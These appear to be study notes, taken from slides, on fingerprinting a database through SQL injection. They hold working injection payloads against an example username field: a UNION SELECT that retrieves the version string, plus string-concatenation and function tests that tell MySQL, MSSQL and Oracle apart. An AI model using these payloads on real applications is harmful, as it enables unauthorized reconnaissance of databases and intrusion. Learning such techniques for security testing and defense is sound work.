

DB Fingerprinting
Inject a particular SQL syntax that helps illustrate these differences:
Dent in our example is an username in the database that we can query
• Special functions/parameters:
◇
MySQL and
SQL Server ▪ SELECT @@version
We need first know the number of the columns(in the example is 4)
-
Dent' UNION SELECT NULL, NULL, NULL, @@version;#  5.7.26 is the version of mysql
• String concatenation(example for the user
Dent):
◇
MySQL:
▪ string1' 'string2
-
De' 'nt ▪ CONCAT('string1','string2')
-
Dent' and 'ab'=CONCAT('a','b');# ◇
MSSQL ▪ 'string1'+'string2'
-
Dent' AND 'ab' ='a'+'b';# ◇
Oracle:
▪ 'string1'||'string2'
-
Dent' AND 'ab'='a'||'b';# ▪ CONCAT('string1','string2')
-
Dent' and 'ab'=CONCAT('a','b');#• Unique numeric functions:
◇
MySQL: connection_id()
◇
MSSQL: @@pack_received
◇
Oracle: BITAND(1,1))